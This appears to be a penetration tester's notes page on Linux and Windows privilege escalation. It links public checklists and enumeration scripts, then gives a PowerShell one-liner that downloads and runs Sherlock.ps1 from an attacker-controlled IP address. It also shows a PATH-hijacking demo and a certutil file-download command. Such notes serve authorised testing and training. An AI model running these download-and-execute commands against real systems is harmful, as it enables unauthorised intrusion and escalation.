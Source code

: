```yaml
---
### The title for the content.
title: "priv esc"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "priv esc"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description: "priv esc description."
### The datetime assigned to this page.
date: 2020-03-10T16:43:46+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "priv-esc"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight: 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## priv esc

| Checklists                                                                                                                                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| [g0tmi1k Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)                                                     |
| [hacktricks Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)                                         |
| [fuzzysecurity Windows Privilege Escalation ](https://www.fuzzysecurity.com/tutorials/16.html)                                                               |
| [PowerSploit - PowerUp](https://github.com/PowerShellMafia/PowerSploit)                                                                                      |
| [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) |

| Scripts                                                                                                  |                                                                                                                                                                                                                              |
| -------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) |
| [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)                        |
| MSF - local_exploit_suggester                                                                            |
| [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)      |
| [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)              |
| [RastaMouse/Sherlock](https://github.com/rasta-mouse/Sherlock)                                           | `powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.24:8888/Sherlock.ps1');$a=find-allvulns;$a | where-object {$_.VulnStatus -notlike 'not *'}| ft Title,VulnStatus,MSBulletin,CVEID,Link -autosize"` |

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```

## [GTFOBins](https://gtfobins.github.io/)

## Download files in command prompt

```
certutil.exe -urlcache -split -f "https://url/file" file
```
